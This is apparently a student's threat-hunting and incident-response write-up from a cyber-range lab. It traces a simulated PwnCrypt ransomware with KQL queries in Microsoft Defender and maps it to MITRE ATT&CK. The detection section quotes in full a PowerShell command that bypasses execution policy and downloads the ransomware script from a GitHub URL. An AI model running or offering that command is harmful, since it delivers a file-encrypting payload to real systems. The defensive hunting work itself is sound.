


# 🛡️ Threat Hunt & Incident Response: PwnCrypt Ransomware Detection and Containment

---

**Author**: Jason Nguyen  
**Date**: 17 June 2025

**Tools & Technologies Used**:
- Microsoft Azure
- Microsoft Defender for Endpoint (MDE)
- KQL (Kusto Query Language)
- PowerShell
- GitHub (Markdown, Repo Management)

---

## 🗓️ Timeline Summary and Findings

### 🔍 Scenario

A new ransomware strain named **PwnCrypt** has been reported in the wild. It uses a **PowerShell-based payload** to encrypt files on infected systems using **AES-256** encryption. The ransomware targets directories such as `C:\Users\Public\Desktop` and appends a `.pwncrypt` extension to filenames (e.g., `hello.txt` → `hello.pwncrypt.txt`).

Due to the organization's **immature security program**, including lack of user awareness training, the CISO has requested an internal investigation to identify and respond to any potential infections.

---

## 🧾 Detection Process

### 1️⃣ File Discovery Using KQL
Initial hunting focused on file artifacts with the `.pwncrypt` pattern:

```kql
let VMname = "windows-target-1";
DeviceFileEvents
| where DeviceName == VMname
| where FolderPath contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, FolderPath, ActionType, InitiatingProcessCommandLine
````



**Findings:**

* Encrypted files with `.pwncrypt` extensions were found.
* Affected directories include **Desktop** and **Temp** folders.
* Strong indication that `windows-target-1` was infected.

---

### 2️⃣ Process Tracing and Payload Delivery

Correlated events around the time of file encryption revealed suspicious use of PowerShell:

```kql
let VMname = "windows-target-1";
let specificTime = datetime(2025-06-10T16:13:46.9449819Z);
DeviceProcessEvents
| where DeviceName == VMname
| where Timestamp between ((specificTime - 2m) .. (specificTime + 2m))
| where ProcessCommandLine contains "pwncrypt"
| order by Timestamp desc
| project Timestamp, DeviceName, ActionType, FileName, ProcessCommandLine
```



**Malicious Command Identified:**

```powershell
cmd.exe /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
```

**Indicators:**

* Use of **`-ExecutionPolicy Bypass`** to disable script restrictions.
* Download of malicious payload from **GitHub**.
* Output written to `C:\programdata\pwncrypt.ps1`.

---

## 🧯 Response Actions

* ✅ **Isolated** the infected device `windows-target-1`.
* 🔁 Created a **detection rule** for `.pwncrypt` activity across all devices.
* ✅ **Isolated additional infected devices** discovered via the new rule.
* 📢 **Reported findings to the CISO** with all collected evidence.
* 🗂️ **Documented all encrypted files** and tracked impacted endpoints.
* ⚠️ Due to limited internal capacity, external assistance was requested for forensic analysis and recovery efforts.

---

## 🔧 Recommendations and Improvements

Given the organization’s current security maturity:

1. 🧑‍🏫 **Launch employee awareness training** to reduce user-driven infection vectors.
2. 🛠️ **Harden systems** and restrict PowerShell execution on standard endpoints.
3. 📈 **Expand detection coverage** using known malware/ransomware signatures.
4. 🔄 Use this incident to **prioritize long-term investment** in endpoint protection, EDR solutions, and IR procedures.

---

## 🎯 MITRE ATT\&CK Mapping

| **Tactic**          | **Technique ID** | **Technique Name**                                       | **Description**                                                             |
| ------------------- | ---------------- | -------------------------------------------------------- | --------------------------------------------------------------------------- |
| Execution           | T1059.001        | Command and Scripting Interpreter: PowerShell            | Uses PowerShell with `-ExecutionPolicy Bypass`.                             |
| Execution           | T1059.003        | Command and Scripting Interpreter: Windows Command Shell | Uses `cmd.exe` to initiate PowerShell payload.                              |
| Defense Evasion     | T1562.001        | Disable or Modify Tools: Security Software Discovery     | Bypasses execution policy, evades traditional security tooling.             |
| Collection          | T1119            | Automated Collection                                     | Automatically encrypts files from known directories.                        |
| Impact              | T1486            | Data Encrypted for Impact                                | Encrypted data using AES-256; filenames changed with `.pwncrypt` extension. |
| Command and Control | T1105            | Ingress Tool Transfer                                    | Payload delivered via `Invoke-WebRequest` from external GitHub URL.         |

---

## 📎 Notes

* This incident has reinforced the importance of proactive threat hunting, user education, and modular detection techniques using tools like KQL and Microsoft Defender for Endpoint.
* Screenshots and KQL outputs have been archived locally.
* This report is part of my cybersecurity learning portfolio from Josh Madakor's Cyber Range.
